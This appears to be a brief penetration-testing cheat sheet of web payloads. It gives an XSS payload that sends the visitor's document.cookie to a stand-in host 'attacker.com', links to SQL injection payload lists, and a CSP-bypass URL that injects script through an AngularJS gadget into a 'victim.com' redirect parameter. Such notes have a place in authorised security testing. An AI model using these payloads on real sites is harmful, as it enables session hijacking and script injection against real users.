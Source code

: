 ## Payloads
### XSS
* `<script> new Image().src='http://attacker.com/?cookie=' + encodeURI(document.cookie);</script>`

### SQLi
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list
* https://portswigger.net/web-security/sql-injection/cheat-sheet

## Bypasses
### CSP
* check CSP policy - https://csp-evaluator.withgoogle.com/
#### XSS
* URLencode
* https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard\</script\>\<script+src="https://www.gstatic.com/fsn/angular\_js-bundle1.js"\>\</script\>\<input+ng-app+autofocus+ng-focus%3d"$event.path|orderBy%3a'[].constructor.from([1],alert)'"\>